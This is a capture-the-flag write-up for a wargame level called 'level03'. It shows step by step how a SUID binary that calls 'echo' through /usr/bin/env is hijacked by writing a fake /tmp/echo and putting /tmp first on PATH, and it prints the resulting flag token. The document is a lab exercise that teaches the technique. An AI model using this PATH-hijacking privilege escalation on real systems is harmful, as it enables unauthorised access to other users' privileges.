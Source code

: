 ## Level 03: Exploiting the Binary

### Goal
Retrieve the token by exploiting a binary named `level03`.

### Steps

1. **Analyze the Binary:**
   - Execute the binary:
     ```bash
     ./level03
     ```
     Output:  
     ```
     Exploit me
     ```
   - Inspect the binary:  
   The `strings` command extracts printable character strings from a binary file. You can then use `grep` to search for the desired phrase.
     ```bash
     strings level03 | grep "Exploit me"
     ```
     Output:  
     ```
     /usr/bin/env echo Exploit me
     ```

   The binary executes the `echo` command using `/usr/bin/env` without an absolute path. This behavior can be exploited by modifying the `PATH` environment variable.

2. **Understand the Vulnerability:**  
   - The `/usr/bin/env` command searches for the executable `echo` in the directories listed in the `PATH` environment variable.
   - By controlling the `PATH`, you can prioritize a malicious version of the `echo` command.

3. **Exploit the Vulnerability:**  
   - **Create a Malicious Executable:**  
      Create a fake `echo` command that executes `getflag`:
      ```bash
      echo "/bin/getflag" > /tmp/echo
      chmod +x /tmp/echo
      ```
   - **Modify the PATH Variable:**  
      Temporarily prepend `/tmp` to the `PATH`:
      ```bash
      export PATH=/tmp:$PATH
      ```
   - **Execute the Vulnerable Command:**  
      Run the binary:
      ```bash
      ./level03
      ```
      Output:  
      ```
      Check flag.Here is your token: qi0maab88jeaj46qoumi7maus
      ```

4. **Why This Exploit Works:**
   - The binary `level03` likely has the SUID bit set, allowing it to run with the privileges of its owner (`flag03`).
   - When the modified `PATH` is used, the binary executes `/tmp/echo` (the malicious script) as if it were the real `echo` command.
   - Since `level03` runs with elevated privileges, it successfully executes `getflag` and retrieves the token.

5. **Verify SUID Permissions:**  
   Check if the SUID bit is set on the binary:
   ```bash
   ls -l ./level03
   ```
   Output:
   ```bash
   -rwsr-sr-x 1 flag03 level03 8627 Mar  5  2016 ./level03
   ```
   The `s` in `rws` confirms that the binary runs with the privileges of its owner (in this case, `flag03`).
